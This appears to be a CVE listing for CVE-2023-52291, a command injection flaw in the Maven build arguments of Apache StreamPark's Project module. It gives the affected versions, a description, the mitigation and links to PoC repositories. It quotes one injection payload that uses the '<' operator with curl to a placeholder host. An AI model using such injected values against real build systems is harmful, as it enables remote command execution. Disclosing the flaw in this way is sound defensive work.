 ### [CVE-2023-52291](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-52291)
![](https://img.shields.io/static/v1?label=Product&message=Apache%20StreamPark%20(incubating)&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2.0.0%3C%202.1.4%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CWE-77%20Improper%20Neutralization%20of%20Special%20Elements%20used%20in%20a%20Command%20('Command%20Injection')&color=brighgreen)

### Description

In streampark, the project module integrates Maven's compilation capabilities. The input parameter validation is not strict, allowing attackers to insert commands for remote command execution, The prerequisite for a successful attack is that the user needs to log in to the streampark system and have system-level permissions. Generally, only users of that system have the authorization to log in, and users would not manually input a dangerous operation command. Therefore, the risk level of this vulnerability is very low.Background:In the "Project" module, the maven build args  “<” operator causes command injection. e.g : “< (curl  http://xxx.com )” will be executed as a command injection,Mitigation:all users should upgrade to 2.1.4,  The "<" operator will blocked。

### POC

#### Reference
No PoCs from references.

#### Github
- https://github.com/fkie-cad/nvd-json-data-feeds
- https://github.com/thiscodecc/thiscodecc


